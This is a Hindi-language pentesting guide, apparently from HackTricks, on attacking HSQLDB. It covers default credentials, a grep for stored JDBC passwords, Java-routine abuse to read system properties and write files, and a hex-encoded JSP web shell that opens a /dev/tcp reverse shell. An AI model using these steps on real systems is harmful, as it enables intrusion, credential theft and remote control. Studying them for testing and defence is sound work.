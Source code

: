 # 9001 - Pentesting HSQLDB

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** एक प्रमुख SQL रिलेशनल डेटाबेस सिस्टम है जो Java में लिखा गया है। यह एक छोटा, तेज़ मल्टीथ्रेडेड और ट्रांजैक्शनल डेटाबेस इंजन प्रदान करता है जिसमें इन-मेमोरी और डिस्क-आधारित टेबल होते हैं और यह एम्बेडेड और सर्वर मोड का समर्थन करता है।

**डिफ़ॉल्ट पोर्ट:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
## Default Settings

ध्यान दें कि डिफ़ॉल्ट रूप से यह सेवा संभवतः मेमोरी में चल रही है या लोकलहोस्ट से बंधी हुई है। यदि आपने इसे पाया है, तो आपने संभवतः किसी अन्य सेवा का शोषण किया है और विशेषाधिकार बढ़ाने की कोशिश कर रहे हैं।

डिफ़ॉल्ट क्रेडेंशियल आमतौर पर `sa` होते हैं जिनका पासवर्ड खाली होता है।

यदि आपने किसी अन्य सेवा का शोषण किया है, तो संभावित क्रेडेंशियल्स के लिए खोजें।
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
ध्यान दें कि डेटाबेस का नाम ध्यान से नोट करें - आपको कनेक्ट करने के लिए इसकी आवश्यकता होगी।

## जानकारी इकट्ठा करना

DB इंस्टेंस से कनेक्ट करें [HSQLDB डाउनलोड करके](https://sourceforge.net/projects/hsqldb/files/) और `hsqldb/lib/hsqldb.jar` को निकालें। GUI ऐप \(eww\) को `java -jar hsqldb.jar` का उपयोग करके चलाएं और खोजे गए/कमजोर क्रेडेंशियल्स का उपयोग करके इंस्टेंस से कनेक्ट करें।

ध्यान दें कि कनेक्शन URL एक दूरस्थ सिस्टम के लिए इस तरह दिखेगा: `jdbc:hsqldb:hsql://ip/DBNAME`।

## तरकीबें

### जावा भाषा रूटीन

हम HSQLDB से जावा भाषा रूटीन का उपयोग करके एक जावा क्लास के स्थिर तरीकों को कॉल कर सकते हैं। ध्यान दें कि कॉल की गई क्लास को एप्लिकेशन के क्लासपाथ में होना चाहिए।

JRTs `functions` या `procedures` हो सकते हैं। यदि जावा विधि एक या अधिक SQL-संगत प्राइमिटिव वेरिएबल लौटाती है, तो फ़ंक्शंस को SQL स्टेटमेंट के माध्यम से कॉल किया जा सकता है। इन्हें `VALUES` स्टेटमेंट का उपयोग करके लागू किया जाता है।

यदि जावा विधि जिसे हम कॉल करना चाहते हैं, void लौटाती है, तो हमें `CALL` स्टेटमेंट के साथ लागू की गई एक प्रक्रिया का उपयोग करना होगा।

### जावा सिस्टम प्रॉपर्टीज़ पढ़ना

फंक्शन बनाएं:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
कार्यवाही फ़ंक्शन:
```text
VALUES(getsystemproperty('user.name'))
```
आप [यहाँ सिस्टम प्रॉपर्टीज़ की सूची](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) पा सकते हैं।

### फ़ाइल में सामग्री लिखें

आप `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java गैजेट का उपयोग कर सकते हैं जो JDK में स्थित है \(जो एप्लिकेशन के क्लास पाथ में ऑटो लोड होता है\) कस्टम प्रक्रिया के माध्यम से डिस्क पर हेक्स-कोडेड आइटम लिखने के लिए। **1024 बाइट्स का अधिकतम आकार ध्यान में रखें**।

प्रक्रिया बनाएं:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
प्रक्रिया निष्पादित करें:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{{#include ../banners/hacktricks-training.md}}
